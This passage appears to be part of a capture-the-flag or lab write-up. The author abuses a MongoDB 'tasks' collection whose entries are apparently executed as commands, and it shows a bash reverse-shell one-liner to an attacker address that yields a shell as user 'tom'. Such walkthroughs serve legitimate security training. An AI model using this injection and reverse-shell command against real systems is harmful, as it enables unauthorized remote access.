 
I will see if I can create file inside of it using the commands below and It is confirmed that file can be created:

`db.tasks.insert({"cmd": "touch /tmp/jadu"})` & `db.tasks.find()`

![](https://i.imgur.com/mvYCXut.png)


Now I can spawn a reverse shell using the command below:

`db.tasks.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/10.10.16.12/1337 0>&1'"})`

![](https://i.imgur.com/shzCxcG.png)


On my local listener, I have a shell as user **tom**:

![](https://i.imgur.com/agf8fT0.png)

